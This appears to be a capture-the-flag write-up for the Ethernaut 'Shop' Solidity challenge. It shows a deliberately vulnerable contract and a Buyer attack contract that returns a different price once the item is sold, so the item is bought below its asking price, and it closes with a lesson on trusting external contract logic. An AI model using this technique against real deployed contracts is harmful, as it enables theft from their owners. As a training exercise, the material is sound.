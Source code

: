 # Shop

Сan you get the item from the shop for less than the price asked?

Things that might help:
- Shop expects to be used from a Buyer
- Understanding restrictions of view functions


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}


```

## Solution


Create the Buyer contract as following. 
```
contract Buyer {
  
  Shop shop;
  function price() external view returns (uint){
    if(shop.isSold()){
      return 1;
    }
    return 101;
  }

  function callBuy(address _shop) public {
    shop = Shop(_shop);
    shop.buy(); 
  }
}

```

When the price function is called for the first time
- `if (_buyer.price() >= price && !isSold)`

 it will return 101 and when it is called for the second time 
 
 - `price = _buyer.price();`

 it will return 1. Hence we will be able to buy the item for lesser price.

### Hint from Ethernaut

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.